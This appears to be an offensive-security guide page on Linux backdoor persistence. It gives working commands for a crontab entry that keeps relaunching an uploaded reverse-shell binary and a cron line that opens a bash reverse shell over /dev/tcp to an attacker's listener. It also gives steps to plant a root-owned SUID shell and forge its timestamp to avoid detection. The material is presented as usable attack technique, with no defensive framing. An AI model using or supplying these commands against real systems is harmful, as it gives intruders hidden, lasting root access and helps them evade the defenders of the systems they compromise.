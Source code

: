 # Backdoors

Creating a backdoor is kind of an art. You can just set a while loop and have it just push out a netcat shell every minute, but you have to ensure that it's not going to clobber a previous netcat session or else you could be relatively noisy. If you don't obfuscate your IP address and processes, a backdoor can be easily detected. Since the goal here is persistence, you would need to create a backdoor that's quiet and stable. For hiding these, check out the Obfuscation section.

# Crontab

1. Upload your own reverse shell malware, for instance a bind shell from msfvenom or something, and set it to run from somewhere like /tmp/totallynotashell
1. Create a crontab entry: `crontab -l > /tmp/zc ; echo "*/1 * * * * if ! \$(ps | grep totallynotashell >/dev/null);then /tmp/totallynotashell; fi">>/tmp/zc && crontab /tmp/zc && rm /tmp/zc`

Or just keep spamming the bash TCP stack:

* `* * * * * /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1`

# SUID Shell

Included is shell.c, which can be compiled with: `gcc shell.c -o rash`

Simply upload it somewhere that the `nosuid` flag *isn't* set, which can be determined through the `mount` command. Then make sure root owns it with the SUID permissions:

```bash
target:~# chown root:wheel /usr/sbin/rash
target:~# chmod 4755 /usr/sbin/rash
target:~# export newdate=$(ls -lah /bin/bash | awk '{ print $6,$7,$8}'); touch -d "$newdate" /usr/sbin/rash
```
